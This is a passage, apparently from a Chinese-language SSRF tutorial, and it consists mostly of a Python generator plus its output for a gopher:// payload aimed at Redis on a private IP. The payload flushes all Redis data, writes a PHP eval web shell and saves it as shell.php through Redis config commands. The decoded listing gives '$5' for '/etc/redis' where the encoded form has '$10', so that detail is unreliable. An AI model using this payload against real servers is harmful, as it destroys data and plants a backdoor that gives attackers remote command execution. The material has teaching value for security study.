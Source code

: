          "config set dir {}".format(path),
         "config set dbfilename {}".format(filename),
         "save"
         ]
    if passwd:
        cmd.insert(0,"AUTH {}".format(passwd))
    payload=protocol+ip+":"+port+"/_"
    def redis_format(arr):
        CRLF="\r\n"
        redis_arr = arr.split(" ")
        cmd=""
        cmd+="*"+str(len(redis_arr))
        for x in redis_arr:
            cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
        cmd+=CRLF
        return cmd
    
    if __name__=="__main__":
        for x in cmd:
            payload += urllib.quote(redis_format(x))
        print(payload)
    ```

5. 生成的 Payload 以及经过 URL 解码后如下：
    ```bash
    # payload
    gopher://192.168.43.111:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2431%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2410%0D%0A/etc/redis%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A 
    # URL 解码后内容
    gopher://192.168.43.111:6379/_*1
    $8
    flushall
    *3
    $3
    set
    $1
    1
    $31
    
    
    <?php eval($_GET["cmd"]);?>
    
    
    *4
    $6
    config
    $3
    set
    $3
    dir
    $5
    /etc/redis
    *4
    $6
    config
    $3
    set
    $10
    dbfilename
    $9